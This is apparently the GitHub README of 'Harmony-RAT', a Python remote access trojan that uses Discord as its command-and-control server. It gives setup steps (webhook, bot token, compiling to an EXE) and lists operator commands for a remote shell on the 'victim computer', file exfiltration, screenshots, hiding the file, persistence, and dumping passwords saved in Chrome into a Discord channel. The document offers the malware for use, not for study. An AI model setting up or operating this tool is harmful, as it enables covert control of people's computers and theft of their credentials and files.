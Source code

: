 # Harmony-RAT
A simple RAT written in Python that uses Discord as it's C2 server.  


**Features**  
- Full Shell  
- Download files  
- Upload files  
- Screenshot    
- Screenshot all open windows  
- Dump credentials stored in Chrome  
- Persistence  
- And more...


# Usage  
**You have to enter your Discord servers:**  
* Webhook URL
* Bot Token  
* ServerID  
* executable filename

**Into the script around line 20.**

**If you want an EXE use PyInstaller with harmony.py**  
___
Once harmony is executed it will create a new category on your server named with the hardware ID of the computer that executed it.  
3 channels will also be created in that category:  


&emsp;-main: Use this channel to send commands to the victim computer.  
&emsp;-info: On first run the script will dump useful system information in here.  
&emsp;-creds: On first run the script will dump URL, username and password saved in chrome into here.  

# Commands  

**Commands are used in the main channel in the target category**

To send shell commands prefix the command with '>'.  
&emsp;EX:  
```
> tasklist
# Execute command 'tasklist' and return list of running tasks.

> dir c:\Users\bob\Downloads
# Execute command 'dir c:\Users\bob\Downloads' and return list of files in bobs download directory.
```  
---  
**Non shell commands dont need the '>' symbol**  

---  
**kill**  
Kills process specified by pid.  

EX:  
```
kill 2654
```

---
**hide**  
Adds the hidden attribute to the harmony file.  

**unhide**  
Removes the hidden attribute from the harmony file.  

EX:
```
hide
```
```
unhide
```

---
**download**
Uploads file specified by path to server.

EX:
```
download c:\Users\bob\Downloads\nuclearlaunchcodes.txt
```

---
**upload**
Downloads a file and saves it to c:\Users\Public\Downloads\

type upload and then drag the file you want to upload into discord and send the command.

EX:
![](https://github.com/EvanJosephL/Harmony-RAT/blob/main/pngs/upload_example.gif)  

----
**screenshot**  
Takes a screenshot and uploads it to the server.  

EX:
```
screenshot

# or

ss
```

---
**focusScreenshot**  
Attempts to take a screenshot of all open windows.  

EX:
```
focusScreenshot

# or

fss
```

---
**listWindows**
Lists all open windows.  

EX:
```
listWindows

# or

lw
```

---
**credDump**
Dumps all creds saved in Chrome.

EX:
```
credDump

# or

cred
```

---
**persistence**
Attempts to add persistence

EX:
```
persistence

# or

pt
```
